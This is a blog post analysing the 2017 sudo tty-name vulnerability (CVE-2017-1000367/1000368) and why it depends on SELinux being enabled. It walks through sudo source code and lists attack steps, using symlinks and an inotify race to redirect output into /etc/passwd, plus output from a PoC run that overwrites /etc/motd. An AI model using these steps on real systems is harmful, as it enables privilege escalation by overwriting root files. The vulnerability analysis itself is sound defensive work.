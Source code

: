 +++
date = "2017-06-24T02:33:08+09:00"
title = "sudo vulnerability detail with SELinux(CVE-2017-1000367/CVE-2017-1000368)"
draft = false

+++

There's much misunderstanding about  "sudo" vulnerability(CVE-2017-1000367/1000368) that "SELinux caused some vuulnerable". On this blog, we will describe details about tha vulnerability and why it is depending on SELinux.

(Written by Kazuki Omo:ka-omo@sios.com).

## Vulnerability Details

You can easy to find the details of "what is the vulnerability" on Qualys Security Advisory(http://www.openwall.com/lists/oss-security/2017/05/30/16).

Actually, this vulnerability is completely comes from "sudo" source code.

As the description on above Qualys Security Advisory, main problem is "sudo behaivor when he get space-contained command".

When someone run sudo, sudo program will get user information(user_info: uid, cwd, etc.) by calling get_user_info(). And get_user_info() will call sudo_ttyname_dev()->sudo_ttyname_scan() for device "breadth-first scan". During the sudo_ttyname_scan(), it will obtain "tty number for that process running" by 7th field on "/proc/[pid]/stat".
 
  ex.  When you run mlayer on /dev/pts/0(tty) as pid=2778:
        
        jsossug@cent7enc:~$ cat /proc/2778/stat
        2778 (mplayer) S 2366 2778 2366 34816 2778 1077936128 10433 ....
        
  1.  From above output, "34816" is the dev number. 

  2.  "34816"(Dec) -> "0000 0000 0000 0000 1000 1000 0000 0000"(BN). Maigor number is "31-20 bit + 7-0 bit". Minor number is "19-8" bit. Then Major number is "000010001000 = 136", and Minor number is "0000 0000 0000 0000 = 0".
      .

  3.  For the confirmation, check "ls -l /dev/pts/0" output;

        jsossug@cent7enc:~$ ls -l /dev/pts/0
        crw--w---- 1 jsossug tty 136, 0 Jun 22 12:49 /dev/pts/0

  4.  From above output, you can see "136,0" which is "Major, Minor" number.
       

The problem is /proc/[pid]/stat file is "space-separated" output. So, if someone run "cmd" which contain space, sudo_ttyname_scan() will treat other field as tty name(this is mainly bug).

When Malicious attacker will run cmd with 6-spaces, he can easy to change tty number to any number. And if he can change that tty's symbolic link to file, and treat that file as stdout, he can overwrite that file whatever he wants.
For this sequence, attacker can use sudo's SELinux implementation.

## How to attack

Here is the steps for attacking;

  1.  Create /dev/shm/_tmp which is world-writable directory.

        jsossug@cent7enc:/dev/shm$ mkdir _tmp

  2.  Create symbolic link "/dev/shm/_tmp/tty" as non-existent pts "/dev/pts/57".

        jsossug@cent7enc:/dev/shm$ ln -s /dev/pts/57 /dev/shm/_tmp/tty
        jsossug@cent7enc:/dev/shm$ ls -l /dev/shm/_tmp
        lrwxrwxrwx. 1 jsossug jsossug 11  Jun 22 09:02 tty -> /dev/pts/57

  3.  "/dev/pts/57" device number will be "34873" as above explanation. So, create symbolic link "/dev/shm/_tmp/      34873" for "/usr/bin/sudo".

        [jsossug@cent7enc _tmp]$ ln -s /usr/bin/sudo "/dev/shm/_tmp/     34873 "
        [jsossug@cent7enc _tmp]$ ls -l
        lrwxrwxrwx. 1 jsossug jsossug 13  Jun 22 09:07      34873  -> /usr/bin/sudo

  4.  Use inotify for monitoring IN_OPEN on /dev/shm/_tmp directory. When /dev/shm/_tmp directory is accessed, change /dev/shm/_tmp/_tty to file which you want to overwrite(/etc/passwd, for example).

* * *

## So, how SELinux is involved on this vulnerability?
   
On above step 4, sudo program will think his tty is "/dev/shm/_tmp" which is linked to "/etc/passwd".

  5. If SELinux is enabled on the system**(doesn't matter Enforcing or Permissive)**, and "-r Role" option is specified , exec_setup() in sudo will call selinux_setup();

        bool
        exec_setup(struct command_details *details, const char *ptyname, int ptyfd)
        {
        --snip-- 
        #ifdef HAVE_SELINUX
            if (ISSET(details->flags, CD_RBAC_ENABLED)) {
                if (selinux_setup(details->selinux_role, details->selinux_type,
                    ptyname ? ptyname : user_details.tty, ptyfd) == -1)
                    goto done;
            }
        #endif

  6. selinux_setup() will call relabel_tty() for relabeling the tty;

        int
        selinux_setup(const char *role, const char *type, const char *ttyn,
            int ptyfd)
        {
        --snip--
            if (relabel_tty(ttyn, ptyfd) < 0) {
                warning(_("unable to setup tty context for %s"), se_state.new_context);
                goto done;
            }

  7. During the relabel_tty(), program will re-open ttyn which is now "/etc/passwd".

        --snip--
                /* Re-open tty to get new label and reset std{in,out,err} */
                close(se_state.ttyfd);
                se_state.ttyfd = open(ttyn, O_RDWR|O_NONBLOCK);
        --snip--

      And call dup2(se_state.ttyfd, ptyfd) for duplicating fd. 

        --snip--
                        for (fd = STDIN_FILENO; fd <= STDERR_FILENO; fd++) {
                            if (isatty(fd) && dup2(se_state.ttyfd, fd) == -1) {
        --snip--

      Then stdin/stdout/stderr will be set as /etc/passwd. So now the "cmd" stdout/stderr will be /etc/passwd, then you can overwrite /etc/passwd if you control the cmd output!!

* * *

## PoC with SELinux enabled.
PoC is available on the Internet. In here, we use /etc/motd(only root can write) for attack file. And use "/usr/bin/sum" for the command, then add /usr/bin/sum as permitted command for "sudovul(test user)".

        sudovul	ALL=(ALL)NOPASSWD:/usr/bin/sum

  1.  Confirm SELinux is Permissive mode;
        
        sudovul@cent7enc:~# getenforce
        Permissive
        

  2.  Run PoC on localhost as sudovul;
        
         [sudovul@cent7enc sudo-CVE-2017-1000367]$ ./sudopwn
         [sudovul@cent7enc sudo-CVE-2017-1000367]$ cat /etc/motd
         /usr/bin/sum: unrecognized option '--
         HELLO
         WORLD
         '
         Try '/usr/bin/sum --help' for more information.

  3.  Change SELinux to Enforcing mode;
        
        sudovul@cent7enc:~# getenforce
        Enforcing
        

  2.  Clear /etc/motd and run PoC on localhost as sudovul;
        
         [sudovul@cent7enc sudo-CVE-2017-1000367]$ ./sudopwn
         [sudovul@cent7enc sudo-CVE-2017-1000367]$ cat /etc/motd
         /usr/bin/sum: unrecognized option '--
         HELLO
         WORLD
         '
         Try '/usr/bin/sum --help' for more information.

So, we can overwrite /etc/motd in SELinux Permissive/Enforcing Mode.

* * *
## PoC with SELinux Disabled

  1. set SELinux as Disabled in /etc/selinux/config, and reboot.

        root@cent7enc:~# getenforce
        Disabled

  2. Clear /etc/motd, and run PoC code again. 

        [sudovul@cent7enc sudo-CVE-2017-1000367]$ ./sudopwn
        /usr/bin/sum: unrecognized option '--
        HELLO
        WORLD
        '
        Try '/usr/bin/sum --help' for more information.

  3. Check /etc/motd is not modified.

        [sudovul@cent7enc sudo-CVE-2017-1000367]$ cat /etc/motd
        [sudovul@cent7enc sudo-CVE-2017-1000367]$ 

* * *
## Conclusion

From above Vulnerability details and PoC, we can say;

1. The main vulnerability is coming from sudo.
2. SELinux is not exactlly used for the attack. Sudo will open tty and dup the fd for relabeling tty(malicious user can use it for attack).
3. This Vulnerablity condition is **SELinux Enabled(not only Enforcing, but also Permissive.)**. For fixing the problem, update sudo package. 
